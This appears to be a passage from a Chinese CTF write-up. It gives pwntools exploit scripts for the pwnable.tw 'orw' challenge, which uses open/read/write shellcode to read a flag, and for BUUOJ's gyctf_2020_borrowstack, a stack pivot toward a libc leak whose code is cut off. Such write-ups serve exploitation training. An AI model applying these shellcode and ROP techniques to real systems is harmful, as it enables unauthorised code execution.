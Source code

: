 > `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行

# gyctf_2020_borrowstack

- 栈迁移
- one-gadgets
- 64泄露libc

![image-20240127001344982](../assets/img/old_imgs/image-20240127001344982.png)

1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
```